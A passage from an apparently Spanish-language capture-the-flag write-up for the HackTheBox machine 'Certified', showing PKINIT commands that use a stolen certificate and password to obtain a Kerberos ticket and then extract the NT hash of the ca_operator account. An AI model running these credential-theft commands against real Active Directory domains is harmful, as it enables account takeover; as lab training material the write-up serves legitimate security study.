 Esto nos vuelve a dar el archivo .pfx y la contraseña:

![image](../zimages/Pasted_image_20250323233905.png)

El cual utilizamos para conseguir el TGT:

```bash
python3 gettgtpkinit.py -cert-pfx ../pywhisker/qN5KbeFJ.pfx -pfx-pass cAhD3B0Su8JuzGWk9xvC certified.htb/ca_operator ca_operator.ccache
```

![image](../zimages/Pasted_image_20250323234511.png)

Una vez tenemos todo lo necesario, intentamos sacar el NTHash:

```bash
KRB5CCNAME=ca_operator.ccache python3 getnthash.py -key 4d8b74f6db4f37d915de52015805a60c7229c77e02f744576553f439c42e8e02 -dc-ip 10.10.11.41 certified.htb/ca_operator
```

![image](../zimages/Pasted_image_20250323234650.png)
